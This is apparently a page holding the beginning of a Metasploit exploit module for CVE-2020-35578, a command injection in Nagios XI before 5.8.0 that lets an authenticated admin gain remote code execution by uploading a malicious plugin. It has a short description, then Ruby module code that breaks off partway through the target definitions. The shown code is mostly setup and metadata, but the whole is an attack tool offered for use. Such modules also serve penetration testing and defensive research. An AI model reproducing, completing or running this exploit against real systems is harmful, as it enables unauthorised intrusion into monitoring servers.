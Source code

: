 INFO
----

This Metasploit module exploits a command injection vulnerability in the /admin/monitoringplugins.php page of Nagios XI versions prior to 5.8.0 when uploading plugins. Successful exploitation allows an authenticated admin user to achieve remote code execution as the apache user by uploading a malicious plugin. Valid credentials for a Nagios XI admin user are required. This module has been successfully tested against Nagios versions XI 5.3.0 and 5.7.5, both running on CentOS 7.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::HTTP::NagiosXi
      include Msf::Exploit::CmdStager
      include Msf::Exploit::FileDropper
      prepend Msf::Exploit::Remote::AutoCheck

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Nagios XI Prior to 5.8.0 - Plugins Filename Authenticated Remote Code Exection',
            'Description' => %q{
              This module exploits a command injection vulnerability (CVE-2020-35578) in the `/admin/monitoringplugins.php`
              page of Nagios XI versions prior to 5.8.0 when uploading plugins. Successful exploitation allows
              an authenticated admin user to achieve remote code execution as the `apache` user by uploading
              a malicious plugin.

              Valid credentials for a Nagios XI admin user are required. This module has
              been successfully tested against Nagios versions XI 5.3.0 and 5.7.5, both
              running on CentOS 7.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'Haboob Team', # https://haboob.sa - PoC
                'Erik Wynter' # @wyntererik - Metasploit'
              ],
            'References' =>
              [
                ['CVE', '2020-35578'],
                ['EDB', '49422']
              ],
            'Platform' => %w[linux unix],
            'Arch' => [ ARCH_X86, ARCH_X64, ARCH_CMD],
            'Targets' =>
              [
                [
                  'Linux (x86/x64)', {
                    'Arch' => [ARCH_X86, ARCH_X64],
                    'Platform' => 'linux',